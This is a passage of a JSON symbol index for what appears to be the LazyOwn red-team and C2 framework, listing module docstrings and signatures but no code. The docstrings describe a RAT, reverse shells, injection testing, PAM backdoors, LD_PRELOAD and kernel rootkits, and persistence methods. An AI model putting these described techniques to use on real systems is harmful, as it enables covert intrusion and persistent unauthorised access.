extract_docx_metadata(file_path)"}, {"kind": "function", "line": 73, "name": "extract_ole_metadata", "signature": "def extract_ole_metadata(file_path)"}, {"kind": "function", "line": 85, "name": "extract_image_metadata", "signature": "def extract_image_metadata(file_path)"}, {"kind": "function", "line": 96, "name": "extract_metadata", "signature": "def extract_metadata(file_path)"}, {"kind": "function", "line": 109, "name": "find_and_extract_metadata", "signature": "def find_and_extract_metadata(directory, output_file)"}, {"doc": "Parse command-line arguments.", "kind": "function", "line": 130, "name": "parse_arguments", "signature": "def parse_arguments()"}, {"kind": "function", "line": 140, "name": "main", "signature": "def main()"}]}, {"doc": "main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: LazyOwn Binary find in gtofbins db  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "modules/lazyown_parquet_tool.py", "kind": "module", "label": "lazyown_parquet_tool.py", "language": "py", "sha256": "537b97d4721438ce", "symbol_count": 4, "symbols": [{"doc": "Highlight the search term in the given text.", "kind": "function", "line": 34, "name": "highlight_term", "signature": "def highlight_term(text, term)"}, {"doc": "Search for a term in the given Parquet files and return matching rows.", "kind": "function", "line": 39, "name": "search_in_parquet", "signature": "def search_in_parquet(term, parquet_files)"}, {"doc": "Search for binaries with special permissions and generate a results CSV.", "kind": "function", "line": 53, "name": "buscar_binarios", "signature": "def buscar_binarios(args)"}, {"doc": "Execute options based on the found data.", "kind": "function", "line": 136, "name": "ejecutar_opciones", "signature": "def ejecutar_opciones()"}]}, {"doc": "main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Cliente LazyOwn Rat  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "modules/lazyownclient.py", "kind": "module", "label": "lazyownclient.py", "language": "py", "sha256": "66b65a6b41f17db1", "symbol_count": 6, "symbols": [{"kind": "function", "line": 34, "name": "signal_handler", "signature": "def signal_handler(sig, frame)"}, {"kind": "function", "line": 51, "name": "pad", "signature": "def pad(s)"}, {"kind": "function", "line": 55, "name": "encrypt", "signature": "def encrypt(plaintext, key)"}, {"kind": "function", "line": 62, "name": "decrypt", "signature": "def decrypt(ciphertext, key)"}, {"kind": "function", "line": 69, "name": "handle_command", "signature": "def handle_command(cmd, key)"}, {"kind": "function", "line": 198, "name": "main", "signature": "def main()"}]}, {"id": "modules/lazyownerweb.py", "kind": "module", "label": "lazyownerweb.py", "language": "py", "sha256": "04b706bc43511eb0", "symbol_count": 3, "symbols": [{"kind": "function", "line": 36, "name": "send_request", "signature": "def send_request(url, params, method)"}, {"kind": "function", "line": 49, "name": "test_injection", "signature": "def test_injection(url, payloads, param_name, detection_strings, method)"}, {"kind": "function", "line": 59, "name": "main", "signature": "def main()"}]}, {"doc": "main.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Servidor LazyOwn RAT  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "modules/lazyownserver.py", "kind": "module", "label": "lazyownserver.py", "language": "py", "sha256": "d362028d86466d15", "symbol_count": 6, "symbols": [{"kind": "function", "line": 34, "name": "signal_handler", "signature": "def signal_handler(sig, frame)"}, {"kind": "function", "line": 42, "name": "pad", "signature": "def pad(s)"}, {"kind": "function", "line": 46, "name": "encrypt", "signature": "def encrypt(plaintext, key)"}, {"kind": "function", "line": 53, "name": "decrypt", "signature": "def decrypt(ciphertext, key)"}, {"kind": "function", "line": 60, "name": "handle_client", "signature": "def handle_client(conn, addr, key)"}, {"kind": "function", "line": 97, "name": "main", "signature": "def main()"}]}, {"id": "modules/lazypsexec.sh", "kind": "module", "label": "lazypsexec.sh", "language": "sh", "sha256": "faf93ce0f3db7c75", "symbol_count": 1, "symbols": [{"doc": "Función para ejecutar psexec y verificar la salida", "kind": "function", "line": 15, "name": "execute_psexec"}]}, {"doc": "Nombre del script: lazyreverse_shell.sh Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Descripción: Este script contiene la lógica principal de la aplicación. lazyreverse_shell Licencia: GPL v3   Banner", "id": "modules/lazyreverse_shell.sh", "kind": "module", "label": "lazyreverse_shell.sh", "language": "sh", "sha256": "f01614312657dd3b", "symbol_count": 2, "symbols": [{"doc": "Función para mostrar ayuda", "kind": "function", "line": 21, "name": "mostrar_ayuda"}, {"doc": "Validar dirección IP", "kind": "function", "line": 31, "name": "validar_ip"}]}, {"id": "modules/lazyrtpflood.sh", "kind": "module", "label": "lazyrtpflood.sh", "language": "sh", "sha256": "442f359df33a6ed3", "symbol_count": 0, "symbols": []}, {"doc": "Author: Nisrin Ahmed aka Wh1teDrvg0n Modify: grisun0", "id": "modules/lazyvpnshield.sh", "kind": "module", "label": "lazyvpnshield.sh", "language": "sh", "sha256": "2add960baebc09c1", "symbol_count": 7, "symbols": [{"kind": "function", "line": 29, "name": "save_current_rules"}, {"kind": "function", "line": 37, "name": "show_current_rules"}, {"kind": "function", "line": 45, "name": "apply_vpn_rules"}, {"kind": "function", "line": 86, "name": "undo_and_restore_rules"}, {"kind": "function", "line": 113, "name": "main"}, {"kind": "function", "line": 11, "name": "ctrl_c"}, {"kind": "function", "line": 16, "name": "check_sudo"}]}, {"id": "modules/lazywps.sh", "kind": "module", "label": "lazywps.sh", "language": "sh", "sha256": "d9b1efe93e153ddc", "symbol_count": 1, "symbols": [{"kind": "function", "line": 9, "name": "ctrl_c"}]}, {"doc": "Backward-compatibility shims for deprecated scripts.  Contract: the canonical location of these scripts is now ``contrib/legacy/``. Every module in this package is a symlink to its counterpart there, so ``python3 modules/legacy/<name>.py``, ``run_script(\"modules/legacy/<name>.py\")`` and ``from modules.legacy.<name> import ...`` keep working without any caller change. New code must import from ``contrib.legacy`` directly and must not add new modules here.", "id": "modules/legacy/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "6826a66d0febe5d1", "symbol_count": 0, "symbols": []}, {"doc": "Lesson ingestion bridge between EpisodeReflectionEngine and MoERouter.  After a campaign completes, :class:`EpisodeReflectionEngine` in ``skills/lazyown_campaign.py`` extracts :class:`LessonLearned` records and persists them to ``sessions/campaign_lessons.jsonl`` and Hive Memory (ChromaDB).  However, those lessons were never fed back into the MoE router or RL trainer to influence future expert selection.  This module closes that gap.  :class:`LessonIngestor` reads lessons and applies lightweight adjustments to:  1. ``ExpertPerformanceStore`` — boosts the EMA reward for experts that executed techniques matching the lesson's topic. 2. ``RLTrainer`` — applies a small positive reward to the ``(task_type, expert)`` Q-entry so the epsilon-greedy policy prefers that expert for the same task type in future campaigns.  Design (SOLID) -------------- - Single Responsibility : lesson → expert mapping + weight adjustment only. - Open/Closed           : new lesson topics added to ``_LESSON_TO_EXPERT``. - Dependency Inversion  : depends on ``get_router`` / ``get_trainer`` factory functions, not concrete classes.", "id": "modules/lesson_ingestor.py", "kind": "module", "label": "lesson_ingestor.py", "language": "py", "sha256": "574c07deadc0447c", "symbol_count": 11, "symbols": [{"doc": "Minimal representation of a campaign lesson for ingestion.", "kind": "class", "line": 55, "name": "LessonLearned", "signature": "class LessonLearned"}, {"doc": "Bridge between post-campaign lessons and the MoE/RL routing layer.\n\nReads lessons from ``sessions/campaign_lessons.jsonl`` (or an explicit\nlist) and applies small reward boosts to the RL Q-table and the MoE\nperformance store so that experts which previously succeeded for a\ngiven topic are preferred in future campaigns.", "kind": "class", "line": 77, "name": "LessonIngestor", "signature": "class LessonIngestor"}, {"doc": "Module-level convenience function to ingest all campaign lessons.\n\nArgs:\n    lessons_file: Optional path to a lessons JSONL file.\n\nReturns:\n    Number of lessons successfully ingested.", "kind": "function", "line": 222, "name": "ingest_campaign_lessons", "signature": "def ingest_campaign_lessons(lessons_file)"}, {"kind": "method", "line": 66, "name": "from_dict", "signature": "def from_dict(cls, d)"}, {"kind": "method", "line": 86, "name": "__init__", "signature": "def __init__(self, lessons_file, router, trainer, boost_reward)"}, {"kind": "method", "line": 98, "name": "_get_router", "signature": "def _get_router(self)"}, {"kind": "method", "line": 110, "name": "_get_trainer", "signature": "def _get_trainer(self)"}, {"kind": "method", "line": 122, "name": "_expert_for_topic", "signature": "def _expert_for_topic(self, topic)"}, {"doc": "Apply a single lesson to the MoE performance store and RL Q-table.\n\nArgs:\n    lesson: A :class:`LessonLearned` record.\n\nReturns:\n    ``True`` when at least one backend was updated, ``False`` when\n    the lesson topic was unmapped or no backend was available.", "kind": "method", "line": 125, "name": "ingest", "signature": "def ingest(self, lesson)"}, {"doc": "Ingest a batch of lessons.\n\nWhen *lessons* is ``None``, reads from the lessons JSONL file.\n\nReturns:\n    Number of lessons successfully ingested.", "kind": "method", "line": 185, "name": "ingest_all", "signature": "def ingest_all(self, lessons)"}, {"doc": "Load lessons from the JSONL file.", "kind": "method", "line": 202, "name": "_load_from_file", "signature": "def _load_from_file(self)"}]}, {"doc": "log_monitor_bot_v2_monolithic.py  Author: Your Name Email: youremail@example.com Creation Date: 14/04/2025 License: GPL v3  Description: Real-time log monitoring bot for Linux systems (Monolithic Test Version). Monitors logs, performs basic parsing, uses DeepSeek for analysis per line, and stores structured results locally.", "id": "modules/lilsplunky.py", "kind": "module", "label": "lilsplunky.py", "language": "py", "sha256": "514246684568af3e", "symbol_count": 14, "symbols": [{"doc": "Intenta extraer información básica de una línea de log.\nEsto es MUY básico, idealmente se usarían regex más específicos por tipo de log.", "kind": "function", "line": 69, "name": "simple_parse_log_line", "signature": "def simple_parse_log_line(line, file_path)"}, {"doc": "Almacena el evento procesado (diccionario Python) como una línea JSON\nen el archivo de salida.", "kind": "function", "line": 108, "name": "store_event", "signature": "def store_event(event_data)"}, {"doc": "Sends a single log entry to DeepSeek for analysis.\nReturns the analysis result as a Python dictionary or None if error.", "kind": "function", "line": 123, "name": "analyze_with_deepseek", "signature": "def analyze_with_deepseek(log_entry_data)"}, {"doc": "Handles file system events, reads new lines using position tracking,\nparses, analyzes, and stores them.", "kind": "class", "line": 217, "name": "LogFileHandler", "signature": "class LogFileHandler(FileSystemEventHandler)"}, {"doc": "Muestra un registro procesado de forma atractiva en la consola.", "kind": "function", "line": 346, "name": "display_record", "signature": "def display_record(record)"}, {"doc": "Busca en el archivo de eventos JSONL registros que coincidan (búsqueda simple de substring).", "kind": "function", "line": 382, "name": "search_logs", "signature": "def search_logs(query, file_path)"}, {"doc": "Starts monitoring the specified log directory.", "kind": "function", "line": 413, "name": "start_monitoring", "signature": "def start_monitoring(log_dir, mode)"}, {"kind": "function", "line": 446, "name": "parse_args", "signature": "def parse_args()"}, {"kind": "method", "line": 223, "name": "__init__", "signature": "def __init__(self, log_dir, mode)"}, {"doc": "Set initial position to the end of all currently monitored files.", "kind": "method", "line": 229, "name": "initialize_file_positions", "signature": "def initialize_file_positions(self)"}, {"doc": "Check if the file path matches any of the monitored patterns.", "kind": "method", "line": 245, "name": "is_monitored", "signature": "def is_monitored(self, file_path)"}, {"doc": "Reads new lines from a file since the last known position.", "kind": "method", "line": 257, "name": "process_file", "signature": "def process_file(self, file_path)"}, {"doc": "Triggered when a file or directory is modified.", "kind": "method", "line": 331, "name": "on_modified", "signature": "def on_modified(self, event)"}, {"doc": "Triggered when a file or directory is created.", "kind": "method", "line": 336, "name": "on_created", "signature": "def on_created(self, event)"}]}, {"doc": "Advanced Linux payloads — LD_PRELOAD rootkits, eBPF, PAM backdoors, kernel implants.  Generates Linux-native payloads for persistence, privilege escalation, and stealth. Covers LD_PRELOAD hooking, eBPF payloads, systemd timer persistence, PAM backdoor modules, SSH authorized_keys injection, process masquerading, and kernel module implants.  All payloads are self-contained — templates compile to functional binaries or scripts with no external dependencies beyond standard system tools.", "id": "modules/linux_advanced_payloads.py", "kind": "module", "label": "linux_advanced_payloads.py", "language": "py", "sha256": "520aa2b09c82284b", "symbol_count": 17, "symbols": [{"doc": "Configuration for advanced Linux payload generation.\n\nAttributes:\n    lhost: Attacker IP for reverse connections.\n    lport: Listener port.\n    payload_type: generated payload category.\n    hook_function: LD_PRELOAD function to hook.\n    persistence_method: How to persist on the target.\n    password: Backdoor password for PAM / SSH access.\n    ssh_key: Public SSH key for authorized_keys persistence.\n    kernel_module_name: Name for kernel module implants.\n    systemd_service_name: Systemd service unit name.\n    compile: Attempt on-the-fly gcc compilation for C payloads.", "kind": "class", "line": 64, "name": "LinuxAdvancedConfig", "signature": "class LinuxAdvancedConfig"}, {"doc": "Generate advanced Linux payloads for persistence, evasion, and escalation.\n\nProduces LD_PRELOAD rootkits, eBPF programs, PAM backdoors, systemd timers,\nSSH persistence, kernel modules, and process masquerading scripts.\n\nAttributes:\n    config: Payload configuration.\n    output_dir: Directory for generated artifacts.", "kind": "class", "line": 92, "name": "LinuxAdvancedPayloadFactory", "signature": "class LinuxAdvancedPayloadFactory"}, {"kind": "method", "line": 105, "name": "__init__", "signature": "def __init__(self, config, output_dir)"}, {"doc": "Generate a C source file for an LD_PRELOAD rootkit.\n\nHooks a specified libc function to execute malicious code before\ncalling the real function. Common hooks: accept (backdoor listener),\naccess (hide files), getdents (hide processes/files).\n\nReturns:\n    C source code for the LD_PRELOAD shared library.", "kind": "method", "line": 110, "name": "generate_ld_preload_rootkit", "signature": "def generate_ld_preload_rootkit(self)"}, {"doc": "Generate an eBPF C program for network manipulation.\n\nCreates an eBPF program that intercepts and modifies network traffic,\nuseful for covert C2 channels, traffic hiding, or packet injection.\n\nReturns:\n    eBPF C source code.", "kind": "method", "line": 235, "name": "generate_ebpf_payload", "signature": "def generate_ebpf_payload(self)"}, {"kind": "method", "line": 305, "name": "_ip_to_hex", "signature": "def _ip_to_hex(ip_str)"}, {"doc": "Generate a PAM (Pluggable Authentication Module) backdoor.\n\nCreates a shared object that hooks pam_sm_authenticate to accept\na magic password for any user. Drop into /lib/security/ and add\nto the PAM stack in /etc/pam.d/common-auth or /etc/pam.d/sshd.\n\nReturns:\n    C source code for the PAM module.", "kind": "method", "line": 311, "name": "generate_pam_backdoor", "signature": "def generate_pam_backdoor(self)"}, {"doc": "Generate systemd service and timer units for persistent callbacks.\n\nReturns:\n    Dict with service_unit and timer_unit content strings.", "kind": "method", "line": 398, "name": "generate_systemd_persistence", "signature": "def generate_systemd_persistence(self)"}, {"doc": "Generate an SSH persistence script for authorized_keys injection.\n\nReturns:\n    Shell script for SSH key injection across multiple user accounts.", "kind": "method", "line": 458, "name": "generate_ssh_persistence", "signature": "def generate_ssh_persistence(self)"}, {"doc": "Generate a Linux kernel module (LKM) rootkit.\n\nCreates a minimal kernel module that hides itself from lsmod,\nhides files with a magic prefix, and provides a reverse shell\ntrigger via magic packet on the configured port.\n\nReturns:\n    C source code for the kernel module.", "kind": "method", "line": 519, "name": "generate_kernel_module", "signature": "def generate_kernel_module(self)"}, {"doc": "Generate a process masquerading script.\n\nRenames the process in /proc and argv to blend in with legitimate\nsystem processes. Useful for long-running beacons.\n\nReturns:\n    Shell script for process masquerading.", "kind": "method", "line": 632, "name": "generate_process_masquerade", "signature": "def generate_process_masquerade(self)"}, {"doc": "Generate a udev rule for persistence on USB/device events.\n\nReturns:\n    Udev rule content string.", "kind": "method", "line": 676, "name": "generate_udev_persistence", "signature": "def generate_udev_persistence(self)"}, {"doc": "Generate a Message of the Day (motd) hook for persistence.\n\nExecutes on every SSH login by appending to /etc/update-motd.d/\nor /etc/profile.d/. Triggers reverse shell in background.\n\nReturns:\n    Shell script for motd/profiled persistence.", "kind": "method", "line": 689, "name": "generate_motd_backdoor", "signature": "def generate_motd_backdoor(self)"}, {"doc": "Compile C source code to a binary or shared library.\n\nArgs:\n    source: C source code.\n    output_name: Output filename (without extension).\n    shared: Compile as shared library (.so) instead of executable.\n\nReturns:\n    Path to compiled binary, or None if compilation fails.", "kind": "method", "line": 707, "name": "compile_c_source", "signature": "def compile_c_source(self, source, output_name, shared)"}, {"doc": "Generate all Linux advanced payload artifacts.\n\nReturns:\n    Dict with all generated payloads, compiled binaries, and install instructions.", "kind": "method", "line": 749, "name": "generate_all", "signature": "def generate_all(self)"}, {"kind": "method", "line": 793, "name": "list_hook_functions", "signature": "def list_hook_functions()"}, {"kind": "method", "line": 797, "name": "list_persistence_methods", "signature": "def list_persistence_methods()"}]}, {"doc": "Multi-listener manager for LazyOwn C2.  Allows the C2 to listen on multiple ports simultaneously, each serving the same Flask application.  Beacons/implants can connect to any listener and share the same global state (commands, results, connected_clients).  Persistence: ``sessions/listeners.json`` stores the listener configuration.  Bind address: never hardcoded. The address comes from ``payload.json`` via ``c2_bind_address`` or ``lhost``. Wildcard literals (``\"\"``, ``\"0.0.0.0\"``, ``\"::\"``) are rejected at the bind site; if the operator wants to expose the listener on a network interface they must put that interface's specific IP in ``payload.json``.", "id": "modules/listener_manager.py", "kind": "module", "label": "listener_manager.py", "language": "py", "sha256": "ea375750a1640d85", "symbol_count": 22, "symbols": [{"doc": "Return the ordered list of specific IP candidates from payload.json.\n\nThe list contains operator-controlled candidates first\n(``c2_bind_address`` then ``lhost``) and always ends with the\nloopback fallback. Wildcard literals are filtered out because the\nframework must never bind to every interface implicitly.\n\nArgs:\n    payload: Parsed ``payload.json`` mapping or ``None``.\n\nReturns:\n    A deduplicated list of bindable IPv4/IPv6 literal candidates.", "kind": "function", "line": 35, "name": "_collect_listener_bind_candidates", "signature": "def _collect_listener_bind_candidates(payload)"}, {"doc": "Probe whether ``(address, port)`` can be bound for TCP.\n\nWildcard literals are rejected inline so the helper doubles as a\nsanitiser. The probe uses ``SO_REUSEADDR`` and an ephemeral\ntimeout to avoid spurious ``EADDRINUSE`` after a recent close.\n\nArgs:\n    address: IPv4/IPv6 literal candidate.\n    port: Port number to test.\n\nReturns:\n    ``(True, None)`` when the bind succeeds; otherwise\n    ``(False, errno_value)``.", "kind": "function", "line": 72, "name": "_probe_listener_bind", "signature": "def _probe_listener_bind(address, port)"}, {"doc": "Return the specific IP literal listeners must bind to.\n\nCandidates are taken exclusively from ``payload.json``\n(``c2_bind_address`` then ``lhost``) with loopback as the final\nfallback. When ``port`` is supplied each candidate is probed and\nthe first bindable address wins, so a stale VPN IP does not\nprevent the C2 from starting; the loopback fallback is always\nbindable.\n\nArgs:\n    payload: Parsed ``payload.json`` mapping or ``None``.\n    port: Optional port for the bind probe. When omitted the\n        first valid candidate is returned without probing.\n\nReturns:\n    A specific IPv4/IPv6 literal safe to pass to ``make_server``.", "kind": "function", "line": 110, "name": "_resolve_listener_bind_address", "signature": "def _resolve_listener_bind_address(payload, port)"}, {"doc": "A single C2 listener endpoint.", "kind": "class", "line": 141, "name": "Listener", "signature": "class Listener"}, {"doc": "Manage multiple C2 listener ports.\n\n``app`` may be ``None`` when used from the CLI for config-only operations\n(add, remove, list).  Start/stop require a live Flask application instance.", "kind": "class", "line": 172, "name": "ListenerManager", "signature": "class ListenerManager"}, {"kind": "method", "line": 152, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 162, "name": "from_dict", "signature": "def from_dict(cls, data)"}, {"kind": "method", "line": 179, "name": "__init__", "signature": "def __init__(self, app, sessions_dir, payload)"}, {"doc": "Update the payload mapping used to resolve the bind address.", "kind": "method", "line": 187, "name": "set_payload", "signature": "def set_payload(self, payload)"}, {"doc": "Return the specific bind address derived from payload.json.\n\nWhen ``port`` is supplied the candidates are probed and the\nfirst bindable one is returned, so a payload-configured IP\nbelonging to a downed interface does not stop the listener\nfrom starting on the loopback fallback.", "kind": "method", "line": 191, "name": "_bind_address", "signature": "def _bind_address(self, port)"}, {"kind": "method", "line": 201, "name": "_listeners_path", "signature": "def _listeners_path(self)"}, {"kind": "method", "line": 204, "name": "_load", "signature": "def _load(self)"}, {"kind": "method", "line": 217, "name": "_save", "signature": "def _save(self)"}, {"doc": "Register a new listener configuration (does not start it).", "kind": "method", "line": 229, "name": "add", "signature": "def add(self, port, ssl, listener_id)"}, {"doc": "Remove a listener configuration.", "kind": "method", "line": 242, "name": "remove", "signature": "def remove(self, listener_id)"}, {"doc": "Start a single listener.\n\nRequires a live Flask ``app`` instance.  Returns ``False`` immediately\nwhen called without one (CLI config-only mode).", "kind": "method", "line": 255, "name": "start", "signature": "def start(self, listener_id)"}, {"doc": "Stop a single listener.", "kind": "method", "line": 323, "name": "stop", "signature": "def stop(self, listener_id)"}, {"kind": "method", "line": 331, "name": "_stop", "signature": "def _stop(self, listener)"}, {"doc": "Start every listener marked as active.", "kind": "method", "line": 344, "name": "start_all", "signature": "def start_all(self)"}, {"doc": "Stop every running listener.", "kind": "method", "line": 350, "name": "stop_all", "signature": "def stop_all(self)"}, {"doc": "Return status of all listeners.", "kind": "method", "line": 355, "name": "status", "signature": "def status(self)"}, {"doc": "Return the port of the first active listener, or fallback.", "kind": "method", "line": 367, "name": "get_default_port", "signature": "def get_default_port(self, fallback)"}]}, {"doc": "Live attack-surface graph derived from the world model.  The static ``templates/graph.html`` is a one-off pyvis export with hardcoded nodes; it cannot reflect an engagement in progress. This module builds a *live* graph instead, straight from ``sessions/world_model.json`` (the authoritative campaign state written by the autonomous daemon and the CLI).  The output is a vis-network-friendly payload — ``nodes``, ``edges`` and a ``stats`` block — that the ``/surface_live`` page polls on an interval so the topology updates as hosts move from *unscanned* to *owned*. Compromised hosts and high-centrality pivot points are flagged with ``pulse`` so the front end can animate them.  Centrality is computed with the existing :class:`modules.world_model.NetworkGraph` (normalized degree centrality), so this module adds presentation only and never re-implements graph reasoning. It imports nothing from ``lazyc2.py`` and is a pure transformation, which keeps it unit-testable.", "id": "modules/live_surface.py", "kind": "module", "label": "live_surface.py", "language": "py", "sha256": "86dfb3afb99170db", "symbol_count": 7, "symbols": [{"doc": "Return ``True`` when a host state means a foothold was obtained.", "kind": "function", "line": 45, "name": "_is_compromised", "signature": "def _is_compromised(state)"}, {"doc": "Map a centrality score to a vis-network node size.", "kind": "function", "line": 50, "name": "_node_value", "signature": "def _node_value(centrality)"}, {"doc": "Classify a graph node id into a vis-network group.", "kind": "function", "line": 55, "name": "_group_for", "signature": "def _group_for(node_id)"}, {"doc": "Strip the typed prefix from a node id for display.", "kind": "function", "line": 64, "name": "_label_for", "signature": "def _label_for(node_id)"}, {"doc": "Build a live vis-network payload from a world-model snapshot.\n\nArgs:\n    world: Parsed ``world_model.json`` content. Missing or malformed\n        sections degrade gracefully to an empty graph.\n\nReturns:\n    A dictionary with ``nodes``, ``edges`` and ``stats`` keys. Each node\n    carries ``id``, ``label``, ``group``, ``state``, ``centrality``,\n    ``value``, ``pulse`` and ``title``. Each edge carries ``from``, ``to``,\n    ``relation`` and ``value``.", "kind": "function", "line": 72, "name": "build_live_graph", "signature": "def build_live_graph(world)"}, {"kind": "function", "line": 106, "name": "_emit_node", "signature": "def _emit_node(node_id, state, title)"}, {"kind": "function", "line": 126, "name": "_emit_edge", "signature": "def _emit_edge(source, target, relation, weight)"}]}, {"doc": "LLM adapter facade — single import point for all LLM backends used by lazyc2.  Consolidates the scattered LLM module imports into one adapter and preserves every original function signature for backward compatibility with the C2 dashboard. The Groq ``process_prompt_*`` family is implemented here directly on the canonical prompt/knowledge contract (:mod:`modules.llm_prompts`) and no longer depends on the retired ``modules.legacy.lazygptcli*`` scripts.  The three streaming local helpers (``process_prompt_local``, ``process_prompt_localreport`` and ``process_prompt_local_yaml``) are retained as re-exports from their Ollama-specific legacy modules until those endpoints migrate onto the factory-backed streaming path.  Usage::  from modules.llm_adapter import ( Groq, safe_groq_client, process_prompt, process_prompt_script, process_prompt_adversary, process_prompt_general, process_prompt_task, process_prompt_vuln, process_prompt_redop, process_prompt_search, )", "id": "modules/llm_adapter.py", "kind": "module", "label": "llm_adapter.py", "language": "py", "sha256": "88b7d2a3ae708a13", "symbol_count": 15, "symbols": [{"doc": "Create a Groq client, returning None when no key is provided.\n\nArgs:\n    api_key: Groq API key or None.\n\nReturns:\n    Groq client instance or None.", "kind": "function", "line": 48, "name": "safe_groq_client", "signature": "def safe_groq_client(api_key)"}, {"kind": "function", "line": 65, "name": "_configure_logging", "signature": "def _configure_logging(debug)"}, {"kind": "function", "line": 70, "name": "_read_prompt_file", "signature": "def _read_prompt_file(prompt)"}, {"kind": "function", "line": 78, "name": "_read_error", "signature": "def _read_error(prompt)"}, {"kind": "function", "line": 82, "name": "_complete", "signature": "def _complete(client, full_prompt, model)"}, {"kind": "function", "line": 96, "name": "_process", "signature": "def _process(client, prompt, debug, template, config)"}, {"doc": "Generate a single-line shell command from a user prompt.\n\nArgs:\n    client: Groq-style chat completion client.\n    prompt: Operator goal text.\n    debug: Enable debug logging.\n\nReturns:\n    Generated single-line command.", "kind": "function", "line": 119, "name": "process_prompt", "signature": "def process_prompt(client, prompt, debug)"}, {"doc": "Generate a full script from a user prompt.\n\nArgs:\n    client: Groq-style chat completion client.\n    prompt: Script requirements text.\n    debug: Enable debug logging.\n\nReturns:\n    Generated script text.", "kind": "function", "line": 133, "name": "process_prompt_script", "signature": "def process_prompt_script(client, prompt, debug)"}, {"doc": "Answer questions about MITRE ATT&CK techniques and Atomic Red Team.\n\nArgs:\n    client: Groq-style chat completion client.\n    prompt: Adversary technique query.\n    debug: Enable debug logging.\n\nReturns:\n    Technique analysis text.", "kind": "function", "line": 147, "name": "process_prompt_adversary", "signature": "def process_prompt_adversary(client, prompt, debug)"}, {"doc": "Answer as a general red-team assistant with payload.json context.\n\nArgs:\n    client: Groq-style chat completion client.\n    prompt: Operator question.\n    debug: Enable debug logging.\n\nReturns:\n    Assistance text.", "kind": "function", "line": 161, "name": "process_prompt_general", "signature": "def process_prompt_general(client, prompt, debug)"}, {"doc": "Perform research and threat-intelligence analysis.\n\nArgs:\n    client: Groq-style chat completion client.\n    prompt: Research topic.\n    debug: Enable debug logging.\n\nReturns:\n    Analysis text.", "kind": "function", "line": 175, "name": "process_prompt_search", "signature": "def process_prompt_search(client, prompt, debug)"}, {"doc": "Analyze a task-assessment JSON file for completion status.\n\nArgs:\n    client: Groq-style chat completion client.\n    prompt: Path to the task JSON file.\n    debug: Enable debug logging.\n\nReturns:\n    Task analysis, or an error message when the file cannot be read.", "kind": "function", "line": 189, "name": "process_prompt_task", "signature": "def process_prompt_task(client, prompt, debug)"}, {"doc": "Analyze Nmap output for vulnerabilities and propose an action plan.\n\nArgs:\n    client: Groq-style chat completion client.\n    prompt: Path to the Nmap output file.\n    debug: Enable debug logging.\n    event: Optional event name whose tool output is appended.\n\nReturns:\n    Vulnerability assessment, or an error message when the file cannot be\n    read.", "kind": "function", "line": 206, "name": "process_prompt_vuln", "signature": "def process_prompt_vuln(client, prompt, debug, event)"}, {"doc": "Evaluate a red-team operation status from a JSON database file.\n\nArgs:\n    client: Groq-style chat completion client.\n    prompt: Path to the operation JSON file.\n    debug: Enable debug logging.\n\nReturns:\n    Operation evaluation, or an error message when the file cannot be read.", "kind": "function", "line": 237, "name": "process_prompt_redop", "signature": "def process_prompt_redop(client, prompt, debug)"}, {"doc": "Answer through the configured LLM backend, regardless of provider.\n\nResolves the backend from ``payload.json`` via\n:func:`modules.llm_factory.try_get_llm_backend`, renders the canonical\ngeneral-assistant template with knowledge-base context, and persists\nsuccessful answers. This is the single provider-agnostic entry point\nevery bot (Slack, Telegram, Discord) uses.\n\nArgs:\n    prompt: Operator question or tool output to analyze.\n    debug: Enable debug logging.\n\nReturns:\n    Assistance text, or an error message when no backend is available.", "kind": "function", "line": 254, "name": "ask_general", "signature": "def ask_general(prompt, debug)"}]}, {"doc": "LazyOwn Unified LLM Client ============================ Single interface for all LLM providers used in LazyOwn: - Groq (cloud, fast inference) - Ollama (local models) - DeepSeek via Ollama - Fallback chain: Groq → Ollama → static message  Usage: from modules.llm_client import LLMClient  client = LLMClient() response = client.ask(\"Explain this nmap output: ...\", provider=\"groq\") response = client.ask(\"Suggest next steps\", provider=\"ollama\", model=\"qwen3.5:0.8b\") response = client.ask(\"Classify this output\", provider=\"auto\")   # tries groq then ollama", "id": "modules/llm_client.py", 